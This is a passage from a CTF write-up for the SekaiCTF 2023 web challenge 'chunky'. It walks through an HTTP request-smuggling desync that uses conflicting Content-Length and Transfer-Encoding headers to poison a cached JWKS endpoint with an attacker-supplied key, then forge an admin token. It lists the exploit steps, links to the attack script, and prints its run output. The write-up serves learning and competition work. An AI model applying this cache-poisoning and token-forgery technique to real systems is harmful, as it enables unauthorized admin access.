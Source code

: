 We generated the key-pair [local_key3](https://github.com/Neptunians/sekai-ctf-2023-web-writeup/blob/main/web-chunky/local_key3) and [local_key3.pub](https://github.com/Neptunians/sekai-ctf-2023-web-writeup/blob/main/web-chunky/local_key3.pub), that we will use to poison our JWKS URL.

3 files that compose the templates of the requests that we will send, as in the Diagram:
- [`desync1.txt`](https://github.com/Neptunians/sekai-ctf-2023-web-writeup/blob/main/web-chunky/desync1.txt) == `POST A`
    - Note that it have both the `Content-Length` and `Transfer-Encoding` headers, that will cause our desync.
- [`desync2.txt`](https://github.com/Neptunians/sekai-ctf-2023-web-writeup/blob/main/web-chunky/desync1.txt) == `GET /post/<user_uuid>/<post_uuid_of_poisoned_jwks>`
    - We will put here a request to the user content with our fake JWKS.
- [`desync3.txt`](https://github.com/Neptunians/sekai-ctf-2023-web-writeup/blob/main/web-chunky/desync1.txt) == `GET /user_uuid/.well-known/jwks.json`
    - That is the legitimate URL that we will poison, with the contents of the previous GET

The complete workflow of the final exploit is:
1. Sign Up new User (command-line argument)
2. Login with new User
3. Create a POST with the content of the injected JWKS Public Key.
4. Perform the [Desync Attack](https://github.com/Neptunians/sekai-ctf-2023-web-writeup/blob/70de611ecaf00b984a104e8fb4168d4412d4f4f2/web-chunky/attack.py#L103) to Poison the Cache with pub key in (3).
5. Test the poisoned cache URL (just for fun)
6. Generate our Token with keys from (3)
7. Call the `/admin/flag` with the token from (6)
8. Close your eyes and pray to Crom and Mitra

Run!!

```
$ python attack.py nep500
===== SIGNUP
/login

===== LOGIN
/

===== POST
URL: /post/e8b30077-4b64-4582-8027-f3bf17b679c1/3d1121b4-02e8-4976-bb47-53787c4b2d96
USER_ID: e8b30077-4b64-4582-8027-f3bf17b679c1
POST_ID: 3d1121b4-02e8-4976-bb47-53787c4b2d96

===== DESYNC!!
[+] Opening connection to localhost on port 8080: Done
===============> First Response (Expect Error 400)
b'<!doctype html>\n<html lang=en>\n<title>Redirecting...</title>\n<h1>Redirecting...</h1>\n<p>You should be redirected automatically to the target URL: <a href="/post/e8b30077-4b64-4582-8027-f3bf17b679c1/9a3fc219-5c92-45d2-9800-efb517f61799">/post/e8b30077-4b64-4582-8027-f3bf17b679c1/9a3fc219-5c92-45d2-9800-efb517f61799</a>. If not, click the link.\n'
===============> End of First Response
===============> Second Response (Expect Fake Key)
b'{"keys": [{"alg": "RS256", "x5c": ["MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAoRX6bRm8JoyCYxmWkhMw\\nlK9qdgcINZ7oy9jFNtsa0o+2vIafzsLKpVL3CbRgqQua1I6k1QXsXAS8/FDnTOHb\\nJ8HiJcl6xv//cohwkzKriYzWNF9o0bKl6S2WsAoEuVpB4HDD0kHYHZZsyAwVbHvv\\nNqlrndrYMlhSWLzXD3VK6w7OIMIC3reE7Urlf5oMVA1D8KOcVfuEBcXyb1yYVSnC\\n9Jy2NIGcZD0mlq3zekhR86ex08QqX5DSZ0djVZQIIH0f7JtiU9rM1UZCek+iVTQO\\n6aBs+wHojv2DkM/4AYblDUVUTO3+kgJlJEzIzgUjhTrcNL4Xi+nEKl3Go2Qs4nvH\\n/wIDAQAB\\n-----END PUBLIC KEY-----"]}]}\n'
===============> End of Second Response
==========

===== Test Poisoned Cache!!
200
```